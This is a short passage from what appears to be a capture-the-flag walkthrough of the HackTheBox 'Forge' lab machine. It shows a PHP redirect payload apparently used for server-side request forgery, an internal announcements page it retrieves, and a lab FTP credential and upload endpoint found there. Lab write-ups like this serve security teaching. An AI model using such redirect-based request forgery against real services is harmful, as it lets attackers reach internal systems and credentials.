 ![image-20240202205329792](./Forge.assets/image-20240202205329792.png)

2. visit `admin.forge.htb/annoucements`
   1. find local ftp service
   2. cred: `user:heightofsecurity123!`
   3. endpoint: `/upload`, `?u=&lt;url&gt;`

```php
<?php
header('Location: http://admin.forge.htb/announcements');
?>
```

```html
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```
